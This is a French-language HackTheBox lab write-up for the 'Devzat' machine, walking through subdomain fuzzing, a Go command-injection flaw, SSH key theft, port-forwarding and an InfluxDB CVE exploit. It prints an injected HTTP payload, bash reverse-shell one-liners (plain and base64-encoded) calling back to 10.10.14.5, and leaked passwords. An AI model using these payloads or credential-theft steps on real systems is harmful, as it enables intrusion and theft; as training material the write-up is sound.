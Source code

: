 # Devzat | Linux

<ins>Plateforme</ins>: **HackTheBox**\
<ins>Nom</ins>: **Devzat**\
<ins>Difficulté</ins>: **Medium**\
<ins>Infos</ins>: **ssh, port-forwarding**

## Scan | Nmap

![image](https://user-images.githubusercontent.com/68467919/155146623-6be18710-2758-4640-9910-e779bd5c8bea.png)

## Vhost

```bash
wfuzz -c -f enum/subdomains.txt -u http://devzat.htb -w /home/r0s3/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.devzat.htb" --hw 26
```

![image](https://user-images.githubusercontent.com/68467919/155146692-1e7b41cc-b8a3-4360-bfd4-8695a1e40580.png)

Sous-domaine “pets”.

## SSH | Port 8000

![image](https://user-images.githubusercontent.com/68467919/155146752-649b06b1-4d55-4543-a717-37efd376bb78.png)

Repo Github de Devzat

[GitHub - quackduck/devzat: The devs are over here at devzat, chat over SSH!](http://github.com/quackduck/devzat)

## Port 80 | Apache

![image](https://user-images.githubusercontent.com/68467919/155146823-e5a54dc9-2560-4055-b418-78d229b9002c.png)

![image](https://user-images.githubusercontent.com/68467919/155146857-3ab7c208-1937-424f-83b6-0e68d523dadc.png)
Il est possible de se connecter sur le serveur SSH de la machine avec n’importe quel nom d’utilisateur.

## Pets | Sous-Domaine

![image](https://user-images.githubusercontent.com/68467919/155146967-64ffb283-eccc-4c81-9b31-94b2aa1589fc.png)

<aside>
💡 Quand une requête est effectuée, elle se fait sur /api/pet !

</aside>

Le sous-domaine a un fichier “.git” qui serait possible de dump avec git-dump.py

![image](https://user-images.githubusercontent.com/68467919/155147017-5bcc2a35-f855-4066-95a1-17b01e1813a3.png)

Ensuite, j’utilise l’extractor de GitTools pour extraire les données que j’ai récupéré.

![image](https://user-images.githubusercontent.com/68467919/155147054-5bfe52b4-015b-4c05-9e3c-c29ffc39fc58.png)

## 🤖 Analyse du code | Golang

Dans le fichier *main.go* une partie est intéressante selon moi : 

```go
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

Pour mieux comprendre, je vais essayer d’expliquer le code.

Nous avons la fonction loadCharacter qui prend en paramètre species, de type string.

La variable **cmd** contient le retour de exec.Command qui va exécuter la commande “cat” dans le dossier characteristics.

L’une des vulnérabilités dont j’ai pensé en premier était une LFI. Essayer de cat /etc/passwd ou un fichier de configuration. Après plusieurs tentatives, je pense essayer une OS Injection.

Si j’envois la requête suivante : 

```bash
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://pets.devzat.htb/
Content-Type: text/plain;charset=UTF-8
Origin: http://pets.devzat.htb
Content-Length: 81
Connection: close

{"name":"aaaa",
"species":"cat;ping -c 5 10.10.14.5"
}
```

Je reçois bien des requêtes provenant de pets.devzat.htb : 

![image](https://user-images.githubusercontent.com/68467919/155147108-b99eba0d-a0e6-4b0e-b833-bc055793342a.png)
## Reverse-Shell

Tout d’abord, j’ai essayé un reverse-shell sans l’encoder en base64. Mais ça n’a pas fonctionné et je n’ai pas reçu de retour sur Netcat.

```bash
bash -i >& /dev/tcp/10.10.14.5/1337 0>&1 | bash
```

Le payload suivant fonctionne et me fait pop un reverse-shell : 

```bash
echo "bash -i >& /dev/tcp/10.11.14.5/1337 0>&1" | base64
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzEzMzcgMD4mMQo=" | base64 -d | bash
```

En premier temps, j’affiche la string “*YmFzaC[...]MD4mMQo=*”, je la décode en base64 puis j’exécute la string décodé avec “bash”

![image](https://user-images.githubusercontent.com/68467919/155147194-6a4defd6-5f1d-4541-b61e-8b4b6b85d26b.png)

Après avoir fait spawn un shell “stable” avec la commande : 

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

Je me rend dans le /home/patrick et m’appercoi qu’un dossier /.ssh est présent avec un id_rsa à l’intérieur ! Super, nous pouvons voler la clé privé de Patrick pour se connecter à sa session SSH ! 

```bash
ssh -i id_rsa patrick@devzat.htb
```

![image](https://user-images.githubusercontent.com/68467919/155147248-414720bd-d089-4bb9-b588-13cd80b29950.png)

## SSH | Port 22

### LinPeas

Quelques ports intéressants notamment le “8086”.

![image](https://user-images.githubusercontent.com/68467919/155147296-ace73a89-7ab4-47b8-967a-a8ea6b89ce90.png)
Après avoir effectué un local port-forwarding sur le port 8086, j’obtiens cette page : 

![image](https://user-images.githubusercontent.com/68467919/155147329-f7c46cd2-02e8-48b7-820e-4cbe8edc72ca.png)
Après énumération : 

![image](https://user-images.githubusercontent.com/68467919/155147409-873cfa9c-78e8-424b-99c5-8dce8e767eaf.png)

Scan nmap sur le port local pour connaître quel service tourne.

![image](https://user-images.githubusercontent.com/68467919/155147439-765d985e-c0c8-476b-8b61-ce95c973c95d.png) \
Après une recherche sur internet, je tombe sur ce repo Github.

[GitHub - LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933: InfluxDB CVE-2019-20933 vulnerability exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

![image](https://user-images.githubusercontent.com/68467919/155147951-884a5933-fd4f-4091-8473-f464e54bd317.png)
Nous pouvons voir que le service est vulnérable. 

Maintenant, nous devons selectionner la base de donnée que nous voulons explorer.

Pour énumérer notre base de donnée, nous allons nous référer au cheat-sheet suivant : 

[InfluxDB command cheatsheet](https://songrgg.github.io/operation/influxdb-command-cheatsheet/)

![image](https://user-images.githubusercontent.com/68467919/155148005-9e7651eb-7212-4e89-8096-8f95f460212e.png)

![image](https://user-images.githubusercontent.com/68467919/155148053-dbea62e9-5868-4e9a-b24f-f4fbd175990d.png)

Super, nous avons le mot de passe de plusieurs utilisateurs. Un en particulier est intéressant car je l’ai trouvé en énumérant la machine depuis le compte de Patrick. Testons donc de nous connecter au compte de Catherine !

![image](https://user-images.githubusercontent.com/68467919/155148119-6269e757-063d-46ce-bca2-9545591e018b.png)

Dans le répertoire /var/backups, nous trouvons deux fichiers .zip du nom de “devzat-dev.zip” et “devzat-main.zip”. 

Après les avoir décompresser, nous remarquons que les deux fichiers sont similaires. J’ai cherché pendant un long moment à comprendre ce qu’il fallait faire et je suis tombé sur ce code là, dans le fichier dev/devzat.go 

```go
import (
	port = 8443
		port, err = strconv.Atoi(os.Getenv("PORT"))
	fmt.Printf("Starting chat server on port %d\n", port)
		fmt.Sprintf("127.0.0.1:%d", port),
		u.writeln("patrick", "I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.")
```

Ce que nous comprenons ici, c’est qu’une instance du service SSH tourne sur le port 8443. C’est une bonne piste. 

Pour se faciliter la tâche, la commande diff peut être utilisée pour connaître les différences entre les deux dossiers spécifiés.

```bash
diff dev/ main/
```

Les résultats sont nombreux, mais le plus important est : 

```go
commands = []commandInfo{clear, message, users, all, exit, bell, room, kick, id, _commands, nick, color, timezone, emojis, help, tictactoe, hangman, shrug, asciiArt, exampleCode, file}

// Check my secure password
if pass != "CeilingCatStillAThingIn2021?" {
	u.system("You did provide the wrong password")
	return
	}
}

func fileCommand(u *user, args []string) {
	if len(args) < 1 {
		u.system("Please provide file to print and the password")
	 	return
}
 
if len(args) < 2 {
 	u.system("You need to provide the correct password to use this function")
 	return
}
 
 	path := args[0]
 	pass := args[1]
```

Nous pouvons déjà remarquer que nous avons une liste de commande, une retient mon attention, “file”, un mot de passe est écrit en clair dans le code également. 

Depuis la session de Catherine, essayons donc de nous connecter au service SSH et d’essayer de lire le contenu du fichier root.txt

![image](https://user-images.githubusercontent.com/68467919/155148273-2081b0c5-a74e-44e7-9383-4217685d4f3a.png)

**FLAGGED !!!**

